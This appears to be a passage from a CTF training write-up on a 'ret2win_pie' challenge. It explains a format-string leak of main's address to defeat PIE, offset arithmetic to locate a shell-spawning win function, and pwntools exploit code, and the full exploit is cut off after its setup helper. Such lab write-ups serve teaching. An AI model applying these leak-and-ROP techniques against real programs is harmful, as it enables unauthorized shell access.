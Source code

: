 ![](/assets/images/pwntraining2/pwntrain12.png)

A win function: this will call execve("/bin/sh"), its a ROP challenge and I am pretty sure you know how to do it. There is a small catch here. We have to calculate the relative offset of the addresses since PIE is enabled, so manually calculate the distance of the gadgets and the win function.

```py
p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.interactive()
```

Here, I found out that the 27th position, the address of main is printed so I put all the leaked stuff into a list (You can just strip it and store the main address value too). Next I manaually subtract the offset and add it to get the address from the leaked value. Also just to be sure everything is correct, I log all the info I get and verify them in gdb.

Now its simple, just call the win function with its argument set to `0xdeadbeefcafebabe` (RDI).

Full Exploit: 
```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2win_pie'
elf = ELF("ret2win_pie")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

```